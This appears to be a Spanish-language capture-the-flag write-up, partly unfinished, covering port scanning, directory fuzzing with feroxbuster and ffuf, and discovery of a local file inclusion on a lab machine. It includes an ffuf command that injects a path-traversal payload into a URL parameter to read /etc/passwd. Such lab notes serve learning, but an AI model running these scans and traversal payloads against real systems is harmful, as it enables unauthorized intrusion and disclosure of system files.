Comienzo haciendo el escaneo, encontrando ftp en el puerto 21 y un apache en el 80, siendo ninguna de las dos versiones vulnerable según seachsploit. 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

```
wget -r ftp://172.17.0.2/images
```

#TODO ACABAR

# Buscalove
#LFI #FUZZING 

Fecha: 13/08/2024
Empiezo con nmap: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.19.0.2 -oN scan
```

Encuentro ssh en el puerto 22 y http en el 80, ninguno de ellos vulnerable. Mirando la página, solo veo la típica página de apache que indica que el servicio está funcionando, sin ningún comentario especial. Usaré fuzzing para buscar directorios. Aunque otro días usé dirbuster, leyendo comentarios sobre herramientas de este tipo, veo que se habla muy bien de **ffuf** y de **feroxbuster**, diciendo que:
- Dirb y dirbuster están anticuadas. 
- Gobuster no tiene capacidad de recursión. 
Pruebo con `feroxbuster` 

```
feroxbuster -u http://172.19.0.2 -x php -x html -x txt -x js -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o fuzzing --threads 300
```
![](Imágenes/Pasted%20image%2020240813015839.png)

Con ffuf, lo siguiente haría prácticamente lo mismo:
```
ffuf -c -recursion -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.19.0.2/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
``` 

Haciendo `control+u` en http://172.19.0.2/wordpress encuentro el siguiente comentario: 

![](Imágenes/Pasted%20image%2020240813015744.png)

Pruebo añadiendo `/index.php` a la url y veo que no cambia la apariencia, por lo que puede que se pueda hacer path traversal (usar la url para acceder a archivos ocultos). Leyendo tutoriales, encuentro el comando que usar. El resultado será que si pongo de nombre de parámetro `love`, veré el contenido de /etc/passwd

```
ffuf -c  -u http://172.19.0.2/wordpress/index.php?FUZZ=/../../../../../../../etc/passwd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 183
```
